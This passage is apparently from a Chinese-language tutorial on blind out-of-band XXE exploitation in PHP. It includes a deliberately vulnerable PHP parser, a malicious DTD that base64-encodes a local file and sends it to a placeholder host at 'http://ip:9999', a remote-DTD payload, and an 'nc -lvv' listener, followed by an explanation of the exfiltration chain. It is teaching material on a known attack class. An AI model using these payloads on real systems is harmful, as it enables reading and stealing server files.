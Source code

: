 nc -lvv port 监听即可获得请求回显内容

### 6.2 XXE利用

示例无回显读取本地敏感文件（Blind OOB XXE）：

此部分演示借用php中XXE进行说明

xml.php

```xml
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

test.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

payload:

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

![1547394729754]({{site.baseurl}}/assets/images/审计/1547394729754.png)

结果如下：

![20181120002647-e90baeb4-ec17-1]({{site.baseurl}}/assets/images/审计/20181120002647-e90baeb4-ec17-1.png)

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

**新的利用**

如图所示

![20181120002647-e93bbf00-ec17-1]({{site.baseurl}}/assets/images/审计/20181120002647-e93bbf00-ec17-1.png)

**注意：**

1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
update 7 和 Oracle JDK 1.6 update 35
2.libxml 是 PHP 的 xml 支持
